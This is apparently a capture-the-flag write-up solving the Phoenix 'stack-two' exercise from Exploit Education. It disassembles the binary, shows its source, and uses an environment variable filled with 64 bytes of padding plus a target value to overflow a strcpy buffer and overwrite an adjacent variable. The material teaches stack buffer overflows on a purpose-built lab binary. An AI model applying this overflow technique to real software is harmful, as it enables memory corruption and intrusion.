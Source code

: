 ```yaml
---
title: "phoenix - stack 2"
classes: wide
tag: 
  - "buffer overflow"
header:
  teaser: /assets/images/binary-exploitation/binexp.png
ribbon: red
description: "Solution for stack two from Phoenix in Exploit Education Series"
categories:
  - Binary Exploitation
---
```


Lets list our files using ```ls -la```,

```c
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 04:14 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 6288 Jun  6 04:14 stack-two
```

Lets analyse the file type of the binary using ```file``` command,

```c
user@phoenix-amd64:~$ file stack-two
stack-two: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

Lets try running it,

```c
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
stack-two: please set the ExploitEducation environment variable
```

So its asking use to set an environment variable

Lets analyse it with our debugger,

The functions inside the binary,

```c
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x00000000004004b0  _init
0x00000000004004d0  strcpy@plt
0x00000000004004e0  printf@plt
0x00000000004004f0  getenv@plt
0x0000000000400500  puts@plt
0x0000000000400510  errx@plt
0x0000000000400520  exit@plt
0x0000000000400530  __libc_start_main@plt
0x0000000000400540  _start
0x0000000000400556  _start_c
0x0000000000400580  deregister_tm_clones
0x00000000004005b0  register_tm_clones
0x00000000004005f0  __do_global_dtors_aux
0x0000000000400680  frame_dummy
0x00000000004006ad  main
0x0000000000400740  __do_global_ctors_aux
0x0000000000400782  _fini
```

Lets disassemble ```main()```,

```c
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004006ad <+0>:	  push   rbp
   0x00000000004006ae <+1>:	  mov    rbp,rsp
   0x00000000004006b1 <+4>:	  sub    rsp,0x60
   0x00000000004006b5 <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x00000000004006b8 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004006bc <+15>:	mov    edi,0x400790
   0x00000000004006c1 <+20>:	call   0x400500 <puts@plt>
   0x00000000004006c6 <+25>:	mov    edi,0x4007da
   0x00000000004006cb <+30>:	call   0x4004f0 <getenv@plt>
   0x00000000004006d0 <+35>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006d4 <+39>:	cmp    QWORD PTR [rbp-0x8],0x0
   0x00000000004006d9 <+44>:	jne    0x4006ef <main+66>
   0x00000000004006db <+46>:	mov    esi,0x4007f0
   0x00000000004006e0 <+51>:	mov    edi,0x1
   0x00000000004006e5 <+56>:	mov    eax,0x0
   0x00000000004006ea <+61>:	call   0x400510 <errx@plt>
   0x00000000004006ef <+66>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006f6 <+73>:	mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004006fa <+77>:	lea    rax,[rbp-0x50]
   0x00000000004006fe <+81>:	mov    rsi,rdx
   0x0000000000400701 <+84>:	mov    rdi,rax
   0x0000000000400704 <+87>:	call   0x4004d0 <strcpy@plt>
   0x0000000000400709 <+92>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040070c <+95>:	cmp    eax,0xd0a090a
   0x0000000000400711 <+100>:	jne    0x40071f <main+114>
   0x0000000000400713 <+102>:	mov    edi,0x400828
   0x0000000000400718 <+107>:	call   0x400500 <puts@plt>
   0x000000000040071d <+112>:	jmp    0x400733 <main+134>
   0x000000000040071f <+114>:	mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400722 <+117>:	mov    esi,eax
   0x0000000000400724 <+119>:	mov    edi,0x400870
   0x0000000000400729 <+124>:	mov    eax,0x0
   0x000000000040072e <+129>:	call   0x4004e0 <printf@plt>
   0x0000000000400733 <+134>:	mov    edi,0x0
   0x0000000000400738 <+139>:	call   0x400520 <exit@plt>
End of assembler dump.
```

Lets view the source code for proper understanding,

```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

It is same like previous challenges,

```buffer``` has 64 bytes and after it ```changeme``` is placed

```changeme``` is initialized with 0

But we need to overwrite the buffer with an environment variable

Here is the interesting part,

```c
   0x00000000004006c6 <+25>:	mov    edi,0x4007da
   0x00000000004006cb <+30>:	call   0x4004f0 <getenv@plt>
```

When we view the memory ```0x4007da``` we can see the name of environment variable in it

```c
pwndbg> x/s 0x4007da
0x4007da:	"ExploitEducation"
```

Now lets set the environment variable in the name of "ExploitEducation",

```c
user@phoenix-amd64:~$ export ExploitEducation=monish
user@phoenix-amd64:~$ env | grep Exploit
ExploitEducation=monish
```

Now lets try running the binary,

```c
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Almost! changeme is currently 0x00000000, we want 0x0d0a090a
```

So its just a normal buffer overflow like "stack-one"

But the ```buffer``` data comes from our environment variable,

```c
ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

locals.changeme = 0;
strcpy(locals.buffer, ptr);
```

Now lets store our data in ```ExploitEducation``` env variable

```c
user@phoenix-amd64:~$ export ExploitEducation=$(python -c "print('A'*64+'\x0a\x09\x0a\x0d')")
```

Lets try running our binary,

```c
user@phoenix-amd64:~$ env | grep Exploit
ExploitEducation=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:~$ ./stack-two
Welcome to phoenix/stack-two, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```

Done! We have completed our "stack-two" challenge

